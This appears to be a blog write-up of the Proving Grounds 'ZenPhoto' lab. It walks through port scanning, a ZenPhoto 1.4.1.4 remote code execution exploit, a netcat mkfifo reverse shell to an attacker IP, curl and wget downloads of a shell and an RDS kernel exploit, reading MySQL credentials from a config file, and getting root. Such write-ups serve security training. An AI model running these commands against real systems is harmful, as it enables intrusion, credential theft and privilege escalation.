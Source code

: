 ```yaml
---
title: "ZenPhoto - PG"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2022-01-15 23:02:44 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, ZenPhoto, RDS, Kernel Exploit]
render_with_liquid: false
---
```


## Recon & Enumeration

```bash
# autorecon
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN full_tcp_nmap.txt 192.168.123.41
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
|_http-server-header: CUPS/1.4
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2.0 (95%), Linux 2.6.32 (93%), Linux 2.6.35 (93%)
```

### Ffuf 

```
ffuf -u http://192.168.123.41/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -t 40 

test  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

- http://192.168.123.41/test/
- Powered by zenPHOTO 
- Google: zenphoto 
- https://github.com/zenphoto/zenphoto 
- This gives us the directory structure so now we can go through files and check for any files with sensitive information, version number, etc to aid in further enumeration 
- If we view the source for `http://192.168.123.41/test/` and search for version or scroll to the bottom, we see version number mentioned there 

```
<!-- zenphoto version 1.4.1.4 [8157] (Official Build) THEME: default (index.php) GRAPHICS LIB: PHP GD library 2.0 { memory: 128M } PLUGINS: class-video colorbox deprecated-functions hitcounter security-logger tiny_mce zenphoto_news zenphoto_sendmail zenphoto_seo  -->
```

- http://192.168.123.41/test/robots.txt

```
Disallow: /test/albums/
Disallow: /test/cache/
Disallow: /test/themes/
Disallow: /test/zp-core/
Disallow: /test/zp-data/
Disallow: /test/page/search/
Disallow: /test/uploaded/
```

---

## Exploitation

- `searchsploit zenphoto`
- [ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution](https://www.exploit-db.com/exploits/18083) 
- `php 18083.php 192.168.123.41 /test/`
- `whoami => www-data`
- `curl 192.168.49.123/shell.php -o /var/www/test/shell.php`
- We do not have write access to the web root directory 
- This shell was very restricted so I got another proper reverse shell with netcat 
- `nc -lvnp 23` - since port 23 was also open on the target 
- Then run the following reverse shell one liner from the PHP shell we have: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.123 23 >/tmp/f
```

---

## Privilege Escalation 

- There is MySQL running on this machine as we know from our nmap scan so I started looking for files with MySQL credentials 
- `cat /var/www/test/zp-data/zp-config.php`

```php
# zp-data/zp-config.php
$conf['mysql_user'] = 'root';
$conf['mysql_pass'] = 'hola';
$conf['mysql_host'] = 'localhost';
$conf['mysql_database'] = 'zenphoto';
```

```sql
mysql> select id, user, name, pass from zp_administrators;
+----+----------------+----------+------------------------------------------+
| id | user           | name     | pass                                     |
+----+----------------+----------+------------------------------------------+
|  1 | administrators | group    | NULL                                     |
|  2 | viewers        | group    | NULL                                     |
|  3 | bozos          | group    | NULL                                     |
|  4 | album managers | template | NULL                                     |
|  5 | default        | template | NULL                                     |
|  6 | newuser        | template | NULL                                     |
|  7 | admin          | admin    | 63e5c2e178e611b692b526f8b6332317f2ff5513 |
+----+----------------+----------+------------------------------------------+
```

- Could not crack that hash so moved on to kernel exploits since this kernel version is really old 
- `uname -a => Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux`
- LinPEAS suggested RDS kernel exploit and dirtycow 
- Reliable Datagram Sockets (RDS) Linux Privilege Escalation (Linux Kernel 2.6.30 < 2.6.36-rc8) 

```
Possible Exploits:
[+] [CVE-2010-3904] rds
   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},ubuntu=10.10|9.10,fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},[ ubuntu=10.04{kernel:2.6.32-(21|24)-generic} ]
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c
```

- `wget 192.168.49.123/linux-rds-exploit.c -P /dev/shm/`

```
www-data@offsecsrv:/dev/shm$ gcc linux-rds-exploit.c -o rds-exploit
www-data@offsecsrv:/dev/shm$ chmod +x rds-exploit
www-data@offsecsrv:/dev/shm$ ./rds-exploit
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved rds_proto_ops to 0xf821d980
 [+] Resolved rds_ioctl to 0xf8217090
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# whoami
root
```

```
root@offsecsrv:/root# 
whoami && hostname && ifconfig | grep inet && cat proof.txt

root
offsecsrv
    inet addr:192.168.123.41  Bcast:192.168.123.255  Mask:255.255.255.0
    inet6 addr: fe80::250:56ff:feba:b881/64 Scope:Link
    inet addr:127.0.0.1  Mask:255.0.0.0
    inet6 addr: ::1/128 Scope:Host
4444cb0a0a33ab90abc85d121d2554
```

